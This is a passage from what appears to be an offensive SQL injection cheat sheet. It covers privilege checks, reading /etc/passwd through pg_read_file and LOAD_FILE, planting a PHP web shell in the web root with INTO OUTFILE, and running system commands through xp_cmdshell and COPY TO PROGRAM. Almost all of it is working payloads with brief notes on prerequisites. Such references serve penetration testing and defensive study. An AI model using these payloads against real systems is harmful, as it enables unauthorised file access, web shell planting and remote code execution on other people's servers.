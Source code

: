 Useful to test what we’re allowed to do (privilege escalation):

```sql
SELECT user(), current_user(), session_user(); -- varies by DBMS
SHOW GRANTS;
SELECT * FROM mysql.user; -- If possible

```

### SQLi → LFI (Local File Inclusion)

**PostgreSQL:**

```sql
UNION SELECT pg_read_file('/etc/passwd')
```

**MySQL (with secure_file_priv disabled):**

```sql
SELECT LOAD_FILE('/etc/passwd');
```

### SQLi → File Write

**MySQL:**

```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

> ⚠️ Needs FILE permission + correct path
> 

**Advanced UNION-Based Exploits with File Write**

For exfil via web-accessible files:

```sql
UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'
```

> Already covered, but perhaps add:
> 
- MySQL’s `secure_file_priv` can block this
- Apache must have write permission

### SQLi → RCE (Remote Code Execution)

**MSSQL:**

```sql
EXEC xp_cmdshell 'whoami';
```

**PostgreSQL:**

```sql
COPY (SELECT '') TO PROGRAM 'id';
```
